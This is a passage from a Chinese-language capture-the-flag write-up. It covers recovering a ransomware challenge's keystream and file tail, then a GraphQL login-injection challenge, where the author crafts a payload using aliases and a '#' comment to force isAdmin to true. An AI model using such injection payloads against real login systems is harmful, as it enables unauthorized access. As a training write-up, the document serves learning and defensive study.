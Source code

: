 计算一下文件长度，第二个压缩文件起点的offset是1002，文件内容的起点是1045，整个文件在1079被截断，算上缺少的56字节后，应该在1135字节处结束。

对比原本全长1786-末尾512=1274字节，还应该有139字节的文件尾，这部分主要是文件的元信息和校验值，根据已有的信息可以恢复，继续请D指导写 [脚本](codes/ransomware.ipynb)，解出尾部139字节的keystream。之后恢复flag文件的相应位置，虽然有错误导致个别乱码，但不影响得到flag2。



## 统一身份认证

### flag1

先审计源码，发现登录其实是执行了GraphQL的查询操作，并且其中username和password是用python的格式化字符串直接拼进去的，有很大的操作空间。

```
query ($username: String = "username", $password: String = "password") {
    login(username: $username, password: $password) {
        ok
        isAdmin
        username
    }
}
```

目标是让查询的返回结果包括{"isAdmin": true, "ok": true}。小题名称明显在暗示SQL注入，但是GraphQL的语法有点看不懂。先读 [文档](https://graphql.cn/learn/queries/)，加上本地测试，发现以下一些语法特点：

1. 有“别名”这种神奇操作，可以把返回值改成与查询不同的名称。
2. 与SQL相似，可以用`#`注释掉同一行的后续内容，并且换行不影响语义。
3. query中可以包含多个子查询，但查询结构必须是预先注册过的，这道题只有login和secret。
4. 查询中可以将变量作为参数，但变量必须至少用到一次。

这样，我们可以构造出符合要求的目标查询，先用自己注册的test账号进行第一轮查询，把ok的值赋给isAdmin，再把原本的查询名字改掉，避免重名。

```
query ($username: String = "admin", $password: String = "123") {
    login (username:"test", password:"123") {
        ok
        isAdmin:ok
        username
    }
    another:login (username: $username, password: $password) {
        ok
        isAdmin
        username
    }
}
```

最终合并到同一行，用注释符抹掉这行后面的内容，构造出payload：

```python
pyaload = '123"){login (username:"test", password:"123") {ok isAdmin:ok username} another:#''
```

### flag2

接下来的目标是获取隐藏的数据结构。继续读文档，发现 [内省](https://graphql.cn/learn/introspection/) 语法能够查询数据结构，照葫芦画瓢，仍然用别名通过登录验证：

